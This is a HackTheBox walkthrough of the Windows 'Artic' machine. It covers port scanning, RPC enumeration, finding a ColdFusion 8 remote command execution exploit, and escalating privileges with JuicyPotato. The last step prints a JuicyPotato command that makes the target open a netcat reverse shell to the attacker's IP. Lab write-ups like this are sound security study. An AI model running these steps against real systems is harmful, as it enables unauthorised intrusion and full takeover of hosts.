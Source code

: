 ```yaml
---
title: HTB | Artic
author: Zeropio
date: 2023-01-04
categories: [Pentesting, HackTheBox]
tags: [htb, windows, easy, machines]
permalink: /pentesting/htb/machines/artic
image:
  path: /assets/img/hackthebox/card/Artic.png
  width: 800
  height: 500
---
```


# Fingerprint

## Scan

The scan show:

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Scanning for the OS:

```
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%),
```

## Enumeration

We can enumerate both RPC services and found some remote code execution:

```console
$ rpcdump.py -p 135 10.10.10.11 | grep "atsvc"
          ncacn_np:\\ARCTIC[\PIPE\atsvc]
          ncacn_np:\\ARCTIC[\PIPE\atsvc]
          ncacn_np:\\ARCTIC[\PIPE\atsvc]
          ncacn_np:\\ARCTIC[\PIPE\atsvc]
          ncacn_np:\\ARCTIC[\PIPE\atsvc]
```

In the port 8500 we can found a web with the following contents:

```
CFIDE/               dir   03/22/17 08:52 μμ
cfdocs/              dir   03/22/17 08:55 μμ
```

If we go under `/CFIDE/administrator/`{: .filepath} we can found a ********ColdFusion******** login. Easily, a exploit can be found:

```console
$ searchsploit coldfusion                
------------------------------------------------------ ---------------------------------
 Exploit Title                                        |  Path
------------------------------------------------------ ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting   | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)   | multiple/remote/16985.rb
Adobe ColdFusion 11 - LDAP Java Object Deserializatio | windows/remote/50781.txt
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload         | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Si | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vu | cfm/webapps/36172.txt
Adobe ColdFusion 8 - Remote Command Execution (RCE)   | cfm/webapps/50057.py
```

---

# Footprint

## Initial Access

We will use the previous exploit changing the lhost for our IP. With this, we get an easy shell:

```console
$ python3 50057.py

. . . <SNIP> . . .

C:\ColdFusion8\runtime\bin>whoami
arctic\tolis
```

## Privilege Escalation

We can use JuicyPotato to exploit it:

```console
C:\Users\tolis\Documents>.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Users\tolis\Documents\nc.exe -e cmd 10.10.14.13 443"
```
